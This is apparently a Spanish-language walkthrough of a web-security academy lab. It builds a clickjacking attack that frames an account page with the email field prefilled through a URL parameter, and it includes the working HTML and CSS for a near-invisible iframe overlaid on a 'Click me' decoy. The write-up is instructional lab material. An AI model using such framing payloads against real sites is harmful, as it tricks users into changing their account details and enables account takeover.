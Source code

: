 # Lab: Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in `Lab: Basic clickjacking with CSRF token protection`. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/fda2376e-c775-4d09-a76d-f9441833f9c0)

Objetivo del laboratorio:

Hacer que el usuario víctima, al hacer clic en un señuelo que dice "Click me", actualice su dirección de email por una controlada por el atacante, aprovechando que el formulario:

- Se puede prellenar con parámetros en la URL.

- Puede ser activado visualmente mediante clickjacking.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`, en el dashboard del usuario vemos que tenemos la funcionalidad de `Update email`:
![image](https://github.com/user-attachments/assets/68c2680e-3eed-4e72-ae2c-9781dd823585)

El siguiente paso es verificar que al ingresar una dirección de correo y presionar “Update email”, se envía un formulario prellenado, posiblemente con un CSRF token.

Cambiamos el mail por `test@test.com`:
![image](https://github.com/user-attachments/assets/4d0619fa-f003-4c81-9740-d70531fb93b6)

Observamos el código fuente y vemos lo siguiente:
![image](https://github.com/user-attachments/assets/6cd03705-1106-442e-9479-bd0372375e87)

Lo primero que podemos observar de esto es lo siguiente:

- Envía una petición POST al endpoint `/my-account/change-email` con 2 parámetros (`email` y `csrf="CVx76vmrM8PTmiqRpDDdESV1Z9GkHBQI"` )

Procedemos a validar si existe la precarga del formulario usando parámetros en la URL
Entonces, de ser cierto, el campo `email` en el formulario:
```html
<input required type="email" name="email" value="">
```
...puede ser prellenado vía parámetro GET. 
Esto indica que si accedemos a:
```text
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker.com
```
...el servidor toma ese valor de email desde los parámetros de la URL y lo utiliza para prellenar el campo del formulario. Esto ocurre sin intervención del usuario, lo cual es fundamental para automatizar el ataque de clickjacking.

Hacemos la prueba y validamos que efectivamente existe la precarga del formulario usando parámetros en la URL:
![image](https://github.com/user-attachments/assets/7827582b-0a77-4b77-9053-9dc5948c1496)

Esto se puede combinar con un ataque de clickjacking para presentar un formulario listo para enviar, sobre el cual el usuario haga clic sin saberlo.


Al igual que en el laboratorio anterior, accedemos al Exploit server y procedemos a generar nuestrá página atacante.
Iniciamos ingresando el siguiente código:
```html
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/1c02169f-7865-4d1f-ad44-f60f2c937d04)

Seguimos avanzando, ahora agregamos un "botón fake" usando el elemento `<div>` y le damos estilo tanto al `iframe` como al `div`:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 400px;
    left: 80px;
    z-index: 1;
  }
</style>

<div>Test me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/9750adde-fb29-46de-8df2-adfd737749e0)


El siguiente paso es alinear el señuelo con el botón real:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

Vemos que los elementos se superponen correctamente y efectivamente el mail está precargado en el formulario:
![image](https://github.com/user-attachments/assets/34eeab15-dd15-48de-89c2-5d67aafd8da4)


Ahora procedemos a bajar la opacidad y a cambiar el mail por un mail que no haya sido registrado:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=prueba@prueba.com"></iframe>
```

Vemos que el `iframe` es imperceptible:
![image](https://github.com/user-attachments/assets/579c6c0c-6a26-4ead-a491-2ee0c6ad42bb)


Hacemos click en `Store` y luego en `Deliver exploit to victim` y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/f66164af-07b1-4ff6-bd47-195cec0eee81)


---



